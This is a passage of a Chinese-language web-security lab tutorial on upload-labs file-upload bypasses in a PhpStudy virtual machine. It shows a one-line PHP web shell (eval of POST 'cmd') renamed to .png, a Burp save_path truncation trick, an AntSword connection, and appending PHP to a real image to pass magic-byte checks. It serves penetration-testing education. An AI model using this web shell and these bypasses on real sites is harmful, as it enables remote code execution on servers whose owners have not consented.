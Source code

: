 接着我们要安装小皮面板作为这次实验的环境，小皮面板对主机的侵入性还是蛮大的，我试过在一台远程 Linux 服务器安装，不仅没跑起来，而且还把环境给污染了，无奈只能给服务器重装系统。所以还是在虚拟机环境跑小皮面板，安全隔离，这是安装教程 👉 [02-Mac M1M2 安装 Windows11 && 小皮面板 PhpStudy](https://wukaipeng.com/technique/net-security/08/02)

安装好之后，我们打开 Windows 中的小皮面板 PhpStudy，切换一个低的 PHP 版本：

![](https://img.wukaipeng.com/2023/10/26-061912-image-20231026061912180.png)

关闭 `magic_quotes_gpc`

![](https://img.wukaipeng.com/2023/10/26-062137-image-20231026062136850.png)

重启 PhpStudy。

然后我们准备一个文件 `post.php`，内容为：

```php
<?php eval(@$_POST['cmd']); ?>
```

将 `post.php` 后缀改为 `.png`，然后打开 upload-labs 上传，用 Burp 拦截，修改 `save_path`：

![image-20231026071654942](https://img.wukaipeng.com/2023/10/26-071655-image-20231026071654942.png)

> 如果失败的话可以看一下是否被 Windows11 的“病毒和威胁防护”拦截了。

上传后我们会获得这样的图片 URL：`http://172.16.26.128/upload-labs/upload/post.php%EF%BF%BD/6320231026071713.png`

将 `post.php` 后面去掉，然后在蚁剑上进行连接：

![](https://img.wukaipeng.com/2023/10/26-071834-image-20231026071834534.png)



## 服务端 - 内容绕过

### 文件头检查

下面文件头的格式是十六进制：

- .jpg:  `FF D8 FF E0 00 10 4A 46 49 46`
- .gif: `47 49 46 38 39 61`
- .png: `89 50 4E 47`

Mac 下使用 Hex Friend（[http://hexfiend.com/](http://hexfiend.com/)） 查看一张 png 的十六进制：

![](https://img.wukaipeng.com/2023/10/23-065115-image-20231023065115774.png)

🐴 制作**图片马**：

在 Hex Friend 中打开一张真实图片，在最后加上一句话木马

```php
<?php phpinfo(); ?>
```

![](https://img.wukaipeng.com/2023/10/24-071627-image-20231024071626901.png)
